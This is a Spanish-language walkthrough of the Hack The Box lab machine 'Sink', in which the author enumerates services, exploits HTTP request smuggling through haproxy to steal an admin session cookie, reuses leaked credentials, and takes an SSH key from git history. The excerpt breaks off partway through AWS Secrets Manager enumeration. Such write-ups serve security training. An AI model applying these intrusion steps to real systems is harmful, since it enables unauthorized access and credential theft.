## Box Info

| Name                  | Sink             | 
| :-------------------- | ---------------: |
| Release Date          | 30 Jan, 2021     |
| OS                    | Linux            |
| Rated Difficulty      | Insane           |


```zsh
ping -c 3 10.10.10.225                                                                                            
PING 10.10.10.225 (10.10.10.225) 56(84) bytes of data.
64 bytes from 10.10.10.225: icmp_seq=1 ttl=63 time=124 ms
64 bytes from 10.10.10.225: icmp_seq=2 ttl=63 time=124 ms
64 bytes from 10.10.10.225: icmp_seq=3 ttl=63 time=123 ms
```

```zsh
sudo nmap -p- --open --min-rate 50000 -n -vv -Pn 10.10.10.225 -oG allPorts

# Nmap 7.95 scan initiated Sun Jul 13 01:58:06 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 22,3000,5000 -oN targeted 10.10.10.225
Nmap scan report for 10.10.10.225
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
3000/tcp open  http    Golang net/http server
|_http-title:  Gitea: Git with a cup of tea 
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=627f278123fa98df; Path=/; HttpOnly
|     Set-Cookie: _csrf=muMzz4dppPImuG87LeEu03NrRaw6MTc1MjM4NjI5NDQ3Nzg5NTU5MQ; Path=/; Expires=Mon, 14 Jul 2025 05:58:14 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 13 Jul 2025 05:58:14 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title> Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|     <meta name="description" content="Gitea (Git with a cup of tea) is a painless
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=d38569f2b55f60aa; Path=/; HttpOnly
|     Set-Cookie: _csrf=51jUjSHhwtv56tXooql46pfxqqQ6MTc1MjM4NjI5NTAyMjI2MDE5OQ; Path=/; Expires=Mon, 14 Jul 2025 05:58:15 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 13 Jul 2025 05:58:15 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|_    <meta name="description" content="Gitea (Git with a c
5000/tcp open  http    Gunicorn 20.0.0
|_http-title: Sink Devops
|_http-server-header: gunicorn/20.0.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.95%I=7%D=7/13%Time=68734AF5%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,2943,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/html;\x20charset=UTF-8\r\nSet-Cookie:\x20lang=en-US;\x20Path=/;
SF:\x20Max-Age=2147483647\r\nSet-Cookie:\x20i_like_gitea=627f278123fa98df;
SF:\x20Path=/;\x20HttpOnly\r\nSet-Cookie:\x20_csrf=muMzz4dppPImuG87LeEu03N
SF:rRaw6MTc1MjM4NjI5NDQ3Nzg5NTU5MQ;\x20Path=/;\x20Expires=Mon,\x2014\x20Ju
SF:l\x202025\x2005:58:14\x20GMT;\x20HttpOnly\r\nX-Frame-Options:\x20SAMEOR
SF:IGIN\r\nDate:\x20Sun,\x2013\x20Jul\x202025\x2005:58:14\x20GMT\r\n\r\n<!
SF:DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme-\">\n<head\x
SF:20data-suburl=\"\">\n\t<meta\x20charset=\"utf-8\">\n\t<meta\x20name=\"v
SF:iewport\"\x20content=\"width=device-width,\x20initial-scale=1\">\n\t<me
SF:ta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\t<title>
SF:\x20Gitea:\x20Git\x20with\x20a\x20cup\x20of\x20tea\x20</title>\n\t<link
SF:\x20rel=\"manifest\"\x20href=\"/manifest\.json\"\x20crossorigin=\"use-c
SF:redentials\">\n\t<meta\x20name=\"theme-color\"\x20content=\"#6cc644\">\
SF:n\t<meta\x20name=\"author\"\x20content=\"Gitea\x20-\x20Git\x20with\x20a
SF:\x20cup\x20of\x20tea\"\x20/>\n\t<meta\x20name=\"description\"\x20conten
SF:t=\"Gitea\x20\(Git\x20with\x20a\x20cup\x20of\x20tea\)\x20is\x20a\x20pai
SF:nless")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(HTTPOptions,1000,"HTTP/1\.0\x20404\x20Not\x20Found\r\
SF:nContent-Type:\x20text/html;\x20charset=UTF-8\r\nSet-Cookie:\x20lang=en
SF:-US;\x20Path=/;\x20Max-Age=2147483647\r\nSet-Cookie:\x20i_like_gitea=d3
SF:8569f2b55f60aa;\x20Path=/;\x20HttpOnly\r\nSet-Cookie:\x20_csrf=51jUjSHh
SF:wtv56tXooql46pfxqqQ6MTc1MjM4NjI5NTAyMjI2MDE5OQ;\x20Path=/;\x20Expires=M
SF:on,\x2014\x20Jul\x202025\x2005:58:15\x20GMT;\x20HttpOnly\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Sun,\x2013\x20Jul\x202025\x2005:58:15\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-\">\n<head\x20data-suburl=\"\">\n\t<meta\x20charset=\"utf-8\">\n\t<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1\">\n\t<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edg
SF:e\">\n\t<title>Page\x20Not\x20Found\x20-\x20\x20Gitea:\x20Git\x20with\x
SF:20a\x20cup\x20of\x20tea\x20</title>\n\t<link\x20rel=\"manifest\"\x20hre
SF:f=\"/manifest\.json\"\x20crossorigin=\"use-credentials\">\n\t<meta\x20n
SF:ame=\"theme-color\"\x20content=\"#6cc644\">\n\t<meta\x20name=\"author\"
SF:\x20content=\"Gitea\x20-\x20Git\x20with\x20a\x20cup\x20of\x20tea\"\x20/
SF:>\n\t<meta\x20name=\"description\"\x20content=\"Gitea\x20\(Git\x20with\
SF:x20a\x20c");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 13 01:58:41 2025 -- 1 IP address (1 host up) scanned in 35.03 seconds

```

### WhatWeb

- 5000

```zsh
whatweb http://10.10.10.225:5000/

http://10.10.10.225:5000/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn/20.0.0], IP[10.10.10.225], PasswordField[password], Script, Title[Sink Devops], UncommonHeaders[x-served-by], Via-Proxy[haproxy]
```



- 3000

```zsh
whatweb http://10.10.10.225:3000/

http://10.10.10.225:3000/ [200 OK] Cookies[_csrf,i_like_gitea,lang], Country[RESERVED][ZZ], HTML5, HttpOnly[_csrf,i_like_gitea], IP[10.10.10.225], JQuery, Meta-Author[Gitea - Git with a cup of tea], Open-Graph-Protocol[website], PoweredBy[Gitea], Script, Title[Gitea: Git with a cup of tea], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[ie=edge]
```



```
david
marcus
root
```



Podemos ver en la parte inferior de la web de gitea la version de si misma.

```js
Powered by Gitea Version: 1.12.6 Page: 6ms Template: 3ms 
```

```zsh
searchsploit gitea   
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gitea 1.12.5 - Remote Code Execution (Authenticated)                                                                                                                       | multiple/webapps/49571.py
Gitea 1.16.6 - Remote Code Execution (RCE) (Metasploit)                                                                                                                    | multiple/webapps/51009.rb
Gitea 1.22.0 - Stored XSS                                                                                                                                                  | multiple/webapps/52077.txt
Gitea 1.24.0 - HTML Injection                                                                                                                                              | multiple/webapps/52087.txt
Gitea 1.4.0 - Remote Code Execution                                                                                                                                        | multiple/webapps/44996.py
Gitea 1.7.5 - Remote Code Execution                                                                                                                                        | multiple/webapps/49383.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

DNS



```zsh
echo "10.10.10.225 sink.htb" | sudo tee -a /etc/hosts
```

Notas Page



### Fuzzing Parameter

Quiza podriamos fuzzear el parametro para saltar hacia algun usuario externo y llegar a contenido interesante.

```zsh
ffuf -u "http://10.10.10.225" -H "Host: http://10.10.10.225:5000/notes/FUZZ" -w numlist.txt -fc 400
```

De todas maneras no encontramos nada.

### BurpSuite

Enviaremos un comentario en la pagina home y lo interceptaremos con BurpSuite.



Bueno al enviar esa peticion de nuevo podemos ver algo llamativo en los headers del response.


`haproxy`

Funciona como equilibrador de carga y proxy inverso, especialmente para aplicaciones TCP y HTTP.

## HTTP Request Smuggling

[haproxy-vulnerability-enables-http-request-smuggling-attacks](https://portswigger.net/daily-swig/haproxy-vulnerability-enables-http-request-smuggling-attacks)

[request-smuggling](https://portswigger.net/web-security/request-smuggling)
[haproxy-http-request-smuggling](https://nathandavison.com/blog/haproxy-http-request-smuggling)



```ZSH
echo '\x0b' | base64 -w 0; echo
```

`cTRL + Shift + v`



Copiaremos y pegaremos lo mismo solo que donde se encuentra el 0 agregaremos la mismap peticion sin el transfer-econding y agregaremos el ``msg=test`` para volver a comentar

`Send`



Vemos que es vulnerable pues el segundo comentario fue de la segunda peticion que agregamos.

Cambiando de valor en el parametro `Content-Length` de 0 a 200 podemos ver en el comentario que fuga informacion sensible.


Pero parace estar cortado, intentaremos con 300 para ver si muestra toda la cookie.



## Cookie Hijacking

Acertamos, ha mostrado toda la cookie.



Si remplazamos el nuestro con el nuevo.



Ahora somo el usuario admin. Tiene 3 notas la primera muestra una credencial



```zsh
chefadm:/6'fEGC&zEx{4]zz
```

En la segunda nota muestra un subdominio y credenciales.



```
http://code.sink.htb Username : root Password : FaH@3L>Z3})zzfQ3 
```

La tercera lo mismo un subdominio y credenciales.



```zsh
https://nagios.sink.htb Username : nagios_adm Password : g8<H6GK\{*L.fB3C 
```

### Gitea

Quiza las credenciales root puedan ser para gitea ya que anteriormente vimos un usuario root en gitea.



En efecto las credenciales de root son para gitea.



## Infomation Leakage

El usuario root tiene un repositorio llamado gestor de llaves (key management), nos dirijimos



Que a su vez tiene 9 commits quiza veamos algun archivo con informacion que se haya borrado y nos sea de utilidad.


- Adding EC2 Key Management Structure



El usuario marcus parece ser que agrego un clave rsa, podriamos usarlo para autenticarnos por ssh.

```
chmod 600 id_rsa
```

```zsh
ssh -i id_rsa marcus@10.10.10.225
```

```
marcus@sink:~$ ls
user.txt
marcus@sink:~$ cat user.txt
```

```zsh
lsb_release -a

No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.1 LTS
Release:	20.04
Codename:	focal
```

```zsh
find / -perm -4000 2>/dev/null | grep -v snap
```



Tambien vemos otro usuario llamado david en ``/etc/passwd``



### PSPY

```
./pspy64
```



Despues de esperar un rato ejecutando pspy solo encontro ese script en php que lo ejecuta el usuario root y por ende no tenemos permisos para leer.

## AWS Enumeration

Volviendo a enumerar en la web de gitea encontramos que se esta utilizando AWS junto con unas claves.



```zsh
marcus@sink:/tmp$ aws

Note: AWS CLI version 2, the latest major version of the AWS CLI, is now stable and recommended for general use. For more information, see the AWS CLI version 2 installation instructions at: https://docs.aws.amazon.com/cli/latest/userguide/install-cliv2.html

usage: aws [options] <command> <subcommand> [<subcommand> ...] [parameters]
To see help text, you can run:

  aws help
  aws <command> help
  aws <command> <subcommand> help
aws: error: the following arguments are required: command
```

```zsh
aws secretsmanager list-secrets

You must specify a region. You can also configure your region by running "aws configure".

marcus@sink:/tmp$ aws configure
```

```zsh
4W-S Acc Key ID : AK- IAIUEN3QWCP- STEITJQ
4W-S Sec Key : paVI8Vg -TWkPI3jD-NkdzUMvK4CcdXO2T7sePX0ddF
Default region name [None]: eu
Default output format [None]: json
```

> Use barras espaciadoras porque el github pages es un poco delicado.

## AWS Secrets Manager

```zsh
aws --endpoint-url="http://127.0.0.1:4566" secretsmanager list-secrets
```

```json
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-wDLec",
            "Name": "Jenkins Login",
            "Description": "Master Server to manage release cycle 1",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "eb2a987e-bc6a-4b66-a89c-e3452eeaeb40": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-uMVda",
            "Name": "Sink Panel",
            "Description": "A panel to manage the resources in the devnode",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
